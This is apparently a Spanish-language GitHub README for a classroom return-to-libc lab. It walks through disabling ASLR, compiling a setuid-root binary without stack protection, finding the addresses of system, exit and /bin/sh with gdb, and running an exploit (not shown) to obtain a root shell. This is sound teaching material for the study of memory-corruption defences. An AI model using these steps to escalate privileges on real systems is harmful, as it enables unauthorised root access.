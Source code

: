 # return-to-libc
ataque return to libc
Requerimientos:
1.- Software de virtualizacion 
2.- Maquina virtual 

Pasos para hacer el Ataque:
1.- Arrancar el OS
      login: root
      password: root
      
2.- Crear un usuario
      # useradd -m -G root yeroen
      # passwd yeroen
              *deberas ingresar una contraseña*
      # exit
      
3.- Ingresar como usuario
      login: yeroen
      password: *contraseña ingresada*
      
4.- Tener los 3 documentos
      retlib.c
      getenv.c
      exploit.c
      
5.- Desactivamos la aleatorizacion de espacios de memoria como root
      $ su root
        password: root
      # sysctl -w kernel.randomize_va_space=0
      # gcc -fno-stack-protector -o retlib retlib.c
      # chmod 4755 retlib
      # exit
      
6.- Obtener las Direccione de "/bin/sh" , system y exit

      Para "/bin/sh":
            $ export MYSH=/bin/sh
            $ gcc -o getenv getenv.c
            $ ./getenv
            MYSH address is 0xb------- content /bin/sh
                *recordar esta direccion de "/bin/sh"*
                
      Para system y exit
            $ gdb retlib
            (gdb) b main
            (gdb) r
            (gdb) p system
            $1 = {<text variable, no debug info>} 0xb------- <system>
                *recordar esta direccion de system*
            $2 = {<text variable, no debug info>} 0xb------- <exit>
                *recordar esta direccion de exit*
            (gdb) q
            Quit anyway? (y or n) y
            
7.- Modificar el archivo exploit.c con las direcciones obtenidas
      $ nano exploit.c
      
8.- Conpilar y Ejecutar el archivo exploit.c
      $ gcc -o exploit exploit.c
      $ ./exploit
            *crea badfile*
      $ ./retlib
            *hacemos el ataque*
      #
            *y obtenemos un root shell*
